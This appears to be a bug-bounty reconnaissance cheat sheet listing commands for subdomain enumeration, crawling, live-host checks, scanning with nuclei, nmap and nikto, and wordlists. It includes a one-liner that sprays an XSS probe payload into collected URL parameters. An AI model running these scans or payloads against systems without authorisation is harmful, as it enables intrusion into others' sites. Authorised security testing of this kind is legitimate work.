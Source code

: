 #### Subdomain Enumeration

1. **Assetfinder**

    
    `assetfinder target.com -subs-only | tee -a asset.txt`
    
2. **CrtSh**

    
    `crtsh -d target.com | tee -a crtsh.txt`
    
3. **Findomain**
    

    
    `findomain -t target.com -o` 
    
4. **Subfinder**
    

    
    `subfinder -d target.com`
    
5. **Github-Subdomains**

    
    `github-subdomains -d target.com`
6. Amass

	```shell
amass enum -d example.com
```

7. OSINT

https://inteltechniques.com/tools/index.html

8. gau (get all urls)

```
gau example.com
```

9. crawley
```
# print all links from first page:
crawley http://some-test.site

# print all js files and api endpoints:
crawley -depth -1 -tag script -js http://some-test.site

# print all endpoints from js:
crawley -js http://some-test.site/app.js

# download all png images from site:
crawley -depth -1 -tag img http://some-test.site | grep '\.png$' | wget -i -

# fast directory traversal:
crawley -headless -delay 0 -depth -1 -dirs only http://some-test.site
```
#### Sort out the unique ones


`cat filename.txt | anew filename2.txt`

#### Check The Alive Subdomains



`cat subs.txt | httprobe | tee -a alivesubs.txt`

#### Automated Scanners

- **Nuclei**
    
 
    
    `cat subs.txt | nuclei`
    
- **Nmap**
    

    
    `nmap -sVC -T4 target.com`
    
- **Nikto**
    

    
    `nikto -host target.com`
    

#### Finding Known Tech

- builtwith
- whatruns
- wappalyzer

#### Low Hanging Fruits

- **XSS**
    

    
    `paramspider -d target.com | qsreplace '"/><script>confirm(1)</script>' > xss.txt | while read host; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n"; done`
    

#### URLs



`cat alivesubs.txt | waybackurls | tee -a urls.txt`


`cat urls.txt | httprobe | tee -a aliveurls.txt`

### Google Dorking

[Dorks](https://nitinyadav00.github.io/Bug-Bounty-Search-Engine/?source=post_page-----2b69c3b168fe--------------------------------)

### Useful Wordlists

|**Command**|**Description**|
|---|---|
|`/opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt`|Directory/Page Wordlist|
|`/opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt`|Extensions Wordlist|
|`/opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt`|Domain Wordlist|
|`/opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt`|Parameters Wordlist|

### Burp Suite Shortcuts

|**Shortcut**|**Description**|
|---|---|
|`CTRL+R`|Send to repeater|
|`CTRL+SHIFT+R`|Go to repeater|
|`CTRL+I`|Send to intruder|
|`CTRL+SHIFT+B`|Go to intruder|
|`CTRL+U`|URL encode|
|`CTRL+SHIFT+U`|URL decode|